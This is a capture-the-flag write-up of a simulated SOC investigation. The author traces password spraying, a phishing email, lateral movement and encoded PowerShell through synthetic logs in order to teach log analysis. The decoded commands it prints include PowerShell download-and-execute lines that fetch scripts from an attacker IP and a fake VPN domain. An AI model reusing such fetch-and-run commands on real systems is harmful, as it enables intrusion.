# First SOC Experience

## Motivation behind the challenge

After I got a job as an analyst in a SOC, during the training period one of the seniors training us mentioned that someone they had interviewed had never really seen a log before.

He criticized that a bit since it's an important thing to get some experience with during your studies. In my head I was thinking that, honestly, during my studies I hadn't really seen a log entry either.

Most of the experience I had with that kind of stuff came from doing labs on TryHackMe and other similar platforms.

So for First Hack, which is a CTF that the CTF Committee arranges at the start of each study year, I wanted to make something that could give people a small taste of what investigating something in a SOC can look like.

So the idea was you start with a lead, query different sources, find something interesting, pivot from that into something else and piece the full attack together.

## Misha Query Language CTF Write-up

This is the write-up for a blue team CTF challenge I built around a small KQL-inspired query language called **MQL, or Misha Query Language**. My nickname is Misha, so that's where inspiration is from.

The challenge is meant to feel like a small SOC investigation inside what should represent a SIEM. Obviously, it's simplified compared to how it would actually work in a SOC, since there are logs and other sources of information missing but I wanted to recreate the general idea of getting an alert and then pivoting between different sources to figure out what happened.

The challenge has multiple ways of getting to the flag, but here is an example where the queries are intuitive imo.

The scenario starts with a suspicious cloud sign-in and then moves through email, Windows logons, lateral movement, process activity, and encoded PowerShell.

The final attack path is roughly:

```text
Password spraying
     |
     v
Alice's account compromised
     |
     v
Phishing email sent from Alice to Bob
     |
     v
Bob opens the fake VPN link
     |
     v
PowerShell downloads and runs a payload
     |
     v
FIN-PC01 is used to access FILESERVER01
     |
     v
More PowerShell runs on the server
     |
     v
Nested Base64 is decoded
     |
     v
Flag recovered
```

---

## Running the challenge

Clone the repository and enter the challenge directory:

```bash
git clone git@github.com:Mihailohrani/CTF-Favorites.git
cd CTF-Favorites/First-SOC-Experience/challenge
```

Build and start the challenge with Docker Compose:

```bash
docker compose up --build
```

The challenge will be available at:

```text
http://localhost:3001
```

---

# 1. Getting familiar with the console

The challenge starts in a small web interface called the **Security Log Investigation Console**.

The available tables are:

- `SigninLogs`
- `EmailEvents`
- `DeviceLogonEvents`
- `DeviceProcessEvents`
- `DeviceNetworkEvents`

The query language intentionally only implements a subset of KQL. It supports enough functionality to investigate the incident without trying to reproduce the full Kusto language.



The challenge on the CTFd gave some hints about what happened. The description was acting as an alarm that indicated that there was suspicious activity in cloud sign-ins.

Before looking for anything specific, I started by checking the raw sign-in data.

```text
SigninLogs
| take 50
```



At this point there is nothing conclusive. Most of the rows look like ordinary authentication activity from internal `10.20.5.x` addresses, with a mixture of applications and locations.

The useful part is understanding what fields are available:

```text
Timestamp
User
IPAddress
ResultType
Location
Application
```

From there, failed authentication attempts are a natural place to start.

---

# 2. Looking at failed sign-ins

I filtered out successful logins so I could focus on authentication failures.

```text
SigninLogs
| where ResultType != "Success"
```



There are some isolated failed logins from internal addresses, which by themselves are not very interesting. A failed login is normal and does not automatically mean an attack.

Further down the results, however, the pattern changes.

A single external IP begins attempting authentication against several different users:

```text
185.22.54.9
```

The events are all from `RU`, all target Microsoft 365, and occur only a few seconds apart.



The usernames change while the source IP stays the same:

```text
alice
bob
carol
dave
eve
frank
grace
heidi
ivan
judy
mallory
oscar
peggy
...
```

So here we see something that could be of interest.

One source is trying credentials across many accounts in a very short period of time.

This looks like password spraying.

The next question is whether the source ever successfully authenticated.

---

# 3. Finding the successful login

I filtered the sign-in logs using the suspicious IP and looked for successful authentication.

```text
SigninLogs
| where ResultType == "Success" AND IPAddress == "185.22.54.9"
```



There is one result:

```text
Timestamp:   2026-09-04T08:25:35
User:        alice
IPAddress:   185.22.54.9
ResultType:  Success
Location:    RU
Application: Microsoft 365
```

This gives the investigation its first strong pivot.

The suspicious IP first generated a large number of failed authentication attempts against different accounts. A few minutes later, the same source successfully authenticated as `alice`.

For the rest of the investigation, I treated Alice's account as compromised.

The next thing I wanted to know was what Alice did after the successful login.

---

# 4. Investigating Alice's email activity

Next task acts as an alarm about suspicious email activity from the compromised account.

I searched for messages sent by Alice:

```text
EmailEvents
| where Sender contains "alice"
```



Most of Alice's email activity looks ordinary. There are normal subjects such as:

```text
Quarterly planning notes
Updated spreadsheet
Timesheet reminder
Meeting moved
Budget review
Travel request
```

That background activity matters because it means an email being sent by Alice is not automatically suspicious.

One event stands out:

```text
Timestamp: 2026-09-04T08:27:10
Sender:    alice@corp.example
Recipient: bob@corp.example
Subject:   Updated VPN access instructions
URL:       https://secure-vpn-update.example/vpn
```

The message was sent less than two minutes after the successful suspicious login.

To isolate it, I searched for the VPN-themed message directly, trying to see if this is common:

```text
EmailEvents
| where Subject contains "VPN"
```



We only got one instance of this, and it was after the suspicious sign-in. Url seems suspicious:

```text
https://secure-vpn-update.example/vpn
```

At this point the timeline is:

```text
08:18        Password spraying begins
08:25:35     Successful login as Alice
08:27:10     Alice sends Bob a VPN-themed email
```

That makes Bob the next pivot.

---

# 5. Following Bob

At this point, the challenge description on CTFd gives a bit more context.

It mentions that a user may have clicked a potentially malicious URL and that some unusual activity was registered on a machine afterwards.

The challenge also hints that this is where it becomes useful to start connecting the different telemetry sources instead of staying in `EmailEvents`.

From the email investigation, I already knew that Bob received the suspicious VPN link. That made Bob the obvious user to follow next.

One of the useful places to continue was `DeviceLogonEvents`, since it could help connect Bob to a device and potentially show where the activity went afterwards.

I searched for Bob:

```text
DeviceLogonEvents
| where AccountName contains "bob"
```



Most of Bob's activity is associated with:

```text
FIN-PC01
```

This indicates that FIN-PC01 is Bob's workstation and gives us another useful pivot.

Since the challenge mentioned that Bob may have clicked the suspicious link, I wanted to see what happened on his workstation around the time the email was sent.

I searched the process events on `FIN-PC01`:

```text
DeviceProcessEvents
| where AccountName == "bob" AND DeviceName == "FIN-PC01"
```



There is some normal activity, but shortly after the phishing email there is a sequence that stands out:

```text
08:28:02  msedge.exe       https://secure-vpn-update.example/vpn
08:28:15  powershell.exe   -NoProfile -EncodedCommand ...
08:28:33  powershell.exe   -ExecutionPolicy Bypass -File C:\Users\bob\Downloads\vpn-update.ps1
```

The same VPN URL that was sent to Bob is opened in Edge, followed by encoded PowerShell and then the execution of `vpn-update.ps1`.


Since PowerShell's `-EncodedCommand` uses Base64-encoded UTF-16LE, I decoded the value using the same method:

```python
import base64

encoded = "JAB1AD0AJwBoAHQAdABwAHMAOgAvAC8AcwBlAGMAdQByAGUALQB2AHAAbgAtAHUAcABkAGEAdABlAC4AZQB4AGEAbQBwAGwAZQAvAGYAaQBsAGUAcwAvAHYAcABuAC0AdQBwAGQAYQB0AGUALgBwAHMAMQAnADsASQBuAHYAbwBrAGUALQBXAGUAYgBSAGUAcQB1AGUAcwB0ACAAJAB1ACAALQBPAHUAdABGAGkAbABlACAAQwA6AFwAVQBzAGUAcgBzAFwAYgBvAGIAXABEAG8AdwBuAGwAbwBhAGQAcwBcAHYAcABuAC0AdQBwAGQAYQB0AGUALgBwAHMAMQA"

decoded = base64.b64decode(encoded).decode("utf-16le")
print(decoded)
```

This gives:

```powershell
$u='https://secure-vpn-update.example/files/vpn-update.ps1';Invoke-WebRequest $u -OutFile C:\Users\bob\Downloads\vpn-update.ps1
```

This supports the evidence that Bob's workstation was compromised. The encoded PowerShell downloads `vpn-update.ps1` from the same suspicious domain used in the phishing email, and the next process event shows that exact file being executed.

This connects the suspicious email to activity on Bob's workstation. From there, I went back to Bob's logon activity to see if his account was used anywhere else.

There is also a later event that looks different from the rest:

```text
Timestamp:  2026-09-04T08:34:10
DeviceName: FILESERVER01
AccountName: bob
LogonType:   RemoteInteractive
RemoteIP:    10.0.0.31
ActionType:  LogonSuccess
```

To isolate it:

```text
DeviceLogonEvents
| where AccountName contains "bob" AND LogonType == "RemoteInteractive"
```



Bob's account remotely authenticates to `FILESERVER01` from:

```text
10.0.0.31
```

The next step is therefore to inspect what Bob's account did on the file server.

---

# 6. Process activity on FILESERVER01

I searched `DeviceProcessEvents` using both Bob's account and the file server.

```text
DeviceProcessEvents
| where AccountName == "bob" AND DeviceName == "FILESERVER01"
```



There is normal-looking background activity mixed in with the interesting events, including processes such as Teams, Explorer, Outlook, Edge, and Chrome.

Around the remote logon, however, the sequence changes:

```text
08:34:42  cmd.exe
08:34:50  powershell.exe -NoProfile -EncodedCommand ...
08:35:04  powershell.exe -ExecutionPolicy Bypass -File C:\ProgramData\healthcheck.ps1
08:35:21  powershell.exe -NoProfile -EncodedCommand ...
```

The first command is:

```text
cmd.exe /c whoami
```

That is followed by PowerShell with `-EncodedCommand`.

The process sequence is much more interesting when viewed together than any individual process would be by itself.

---

# 7. Isolating PowerShell

I narrowed the process events to PowerShell running as Bob on the server:

```text
DeviceProcessEvents
| where AccountName == "bob" AND DeviceName == "FILESERVER01" AND ProcessName == "powershell.exe"
```



This gives three events in sequence.

The first contains:

```text
powershell.exe -NoProfile -EncodedCommand ...
```

The second executes:

```text
powershell.exe -ExecutionPolicy Bypass -File C:\ProgramData\healthcheck.ps1
```

The third contains another encoded command.

This is where the investigation moves outside MQL for a moment.

PowerShell's `-EncodedCommand` expects Base64-encoded UTF-16LE text, so I used Python to decode the commands.

---

# 8. Decoding the first PowerShell command

I copied the Base64 value after `-EncodedCommand` and decoded it in Python.

```python
import base64

encoded = (
   "JAB1AD0AJwBoAHQAdABwADoALwAvADEAOAA1AC4AMgAyAC4ANQA0AC4AOQAvAGEAcwBz"
   "AGUAdABzAC8AaABlAGEAbAB0AGgAYwBoAGUAYwBrAC4AcABzADEAJwA7AEkAbgB2AG8A"
   "awBlAC0AVwBlAGIAUgBlAHEAdQBlAHMAdAAgACQAdQAgAC0ATwB1AHQARgBpAGwAZQAg"
   "AEMAOgBcAFAAcgBvAGcAcgBhAG0ARABhAHQAYQBcAGgAZQBhAGwAdABoAGMAaABlAGMA"
   "awAuAHAAcwAxAA=="
)

decoded = base64.b64decode(encoded).decode("utf-16le")
print(decoded)
```

The decoded command is:

```powershell
$u='http://185.22.54.9/assets/healthcheck.ps1';Invoke-WebRequest $u -OutFile C:\ProgramData\healthcheck.ps1
```

This is a useful correlation point.

The same IP that performed the password spraying and successfully authenticated as Alice is now being used as the source for a PowerShell download on `FILESERVER01`.

The command downloads:

```text
http://185.22.54.9/assets/healthcheck.ps1
```

and saves it as:

```text
C:\ProgramData\healthcheck.ps1
```

The next process event then executes exactly that file:

```text
powershell.exe -ExecutionPolicy Bypass -File C:\ProgramData\healthcheck.ps1
```

At this point the sequence on the server is pretty clear:

```text
Remote login as Bob
       |
       v
cmd.exe /c whoami
       |
       v
Encoded PowerShell
       |
       v
Download healthcheck.ps1
       |
       v
ExecutionPolicy Bypass
       |
       v
healthcheck.ps1 executes
```

There is still one more encoded PowerShell command after that.

---

# 9. Decoding the final command

The final process event contains another PowerShell `-EncodedCommand`.

I decoded it using the same Python approach:

```python
import base64

encoded = (
   "JABkAD0AWwBUAGUAeAB0AC4ARQBuAGMAbwBkAGkAbgBnAF0AOgA6AFUAVABGADgALgBH"
   "AGUAdABTAHQAcgBpAG4AZwAoAFsAQwBvAG4AdgBlAHIAdABdADoAOgBGAHIAbwBtAEIA"
   "YQBzAGUANgA0AFMAdAByAGkAbgBnACgAJwBRADEAUgBHAGEAMgA5AHQAZQAyAE4AcwBN"
   "AEgAVgBrAFgAMgAwADAATQBXAHgAZgBNADIANQBrAGMARABBAHgAYgBuAFIAZgBjAEQA"
   "RgAyAE0ASABSAGYATQBqAEEAeQBOADMAMAA9ACcAKQApADsAVwByAGkAdABlAC0ATwB1"
   "AHQAcAB1AHQAIAAkAGQA"
)

decoded = base64.b64decode(encoded).decode("utf-16le")
print(decoded)
```

That produces another PowerShell expression:

```powershell
$d=[Text.Encoding]::UTF8.GetString([Convert]::FromBase64String('Q1RGa29te2NsMHVkX200MWxfM25kcDAxbnRfcDF2MHRfMjAyN30='));Write-Output $d
```

So the PowerShell encoding was only the outer layer.

Inside it is another Base64 value:

```text
Q1RGa29te2NsMHVkX200MWxfM25kcDAxbnRfcDF2MHRfMjAyN30=
```

This inner value is regular Base64 representing UTF-8 text.

I decoded that separately:

```python
import base64

inner = "Q1RGa29te2NsMHVkX200MWxfM25kcDAxbnRfcDF2MHRfMjAyN30="

flag = base64.b64decode(inner).decode("utf-8")
print(flag)
```

Output:

```text
CTFkom{cl0ud_m41l_3ndp01nt_p1v0t_2027}
```

That is the final flag.

---

# 10. Reconstructed attack chain

After correlating the different telemetry sources, the full incident can be reconstructed.

## Stage 1: Password spraying

The external address:

```text
185.22.54.9
```

attempts authentication against many different users from `RU`.

The attempts occur only seconds apart and target Microsoft 365.

## Stage 2: Account compromise

The same IP eventually authenticates successfully as:

```text
alice
```

at:

```text
2026-09-04T08:25:35
```

## Stage 3: Phishing from the compromised account

Shortly afterwards, Alice sends Bob:

```text
Subject: Updated VPN access instructions
URL: https://secure-vpn-update.example/vpn
```

This occurs at:

```text
2026-09-04T08:27:10
```

## Stage 4: Bob's endpoint becomes the next pivot

Bob's normal workstation is:

```text
FIN-PC01
```

The investigation follows Bob into logon telemetry.

## Stage 5: Lateral movement

Bob's account remotely authenticates to:

```text
FILESERVER01
```

from:

```text
10.0.0.31
```

using a `RemoteInteractive` logon.

## Stage 6: Execution on FILESERVER01

Processes running as Bob on the server include:

```text
cmd.exe /c whoami
powershell.exe -NoProfile -EncodedCommand ...
powershell.exe -ExecutionPolicy Bypass -File C:\ProgramData\healthcheck.ps1
powershell.exe -NoProfile -EncodedCommand ...
```

The first encoded command downloads `healthcheck.ps1` from the original attacker IP.

## Stage 7: Flag recovery

The final encoded PowerShell command contains another Base64 string.

After decoding both layers:

```text
PowerShell Base64
       |
       v
UTF-16LE PowerShell command
       |
       v
Inner Base64
       |
       v
UTF-8 text
       |
       v
CTFkom{cl0ud_m41l_3ndp01nt_p1v0t_2027}
```

---

# 11. Timeline

The most important events can be reduced to this timeline:

```text
Time       Event
---------- -----------------------------------------------------------
08:18      Password spraying from `185.22.54.9` begins
08:25:35   Successful Microsoft 365 login as Alice from the same IP
08:27:10   Alice sends Bob the fake VPN email
08:34:10   Bob remotely logs into `FILESERVER01` from `10.0.0.31`
08:34:42   `cmd.exe /c whoami` runs on `FILESERVER01`
08:34:50   Encoded PowerShell downloads `healthcheck.ps1`
08:35:04   `healthcheck.ps1` is executed with ExecutionPolicy bypass
08:35:21   Final encoded PowerShell command runs
08:35:21   Nested Base64 leads to the flag
```

The whole malicious sequence takes place in roughly seventeen minutes from the start of the password spraying to the final encoded command.

---

# 12. How I built the challenge

The challenge uses five synthetic telemetry sources:

```text
SigninLogs
EmailEvents
DeviceLogonEvents
DeviceProcessEvents
DeviceNetworkEvents
```

I generated normal background events and inserted the malicious activity into that noise.

That was important because I did not want the challenge to be solvable by searching for `powershell.exe` and immediately finding the answer.

There are normal sign-ins, normal emails, ordinary Windows processes, legitimate PowerShell usage, network connections, and routine logons mixed into the data.

The generated CSV files are loaded into DuckDB.

The web application is written in Flask and exposes a `/query` endpoint.

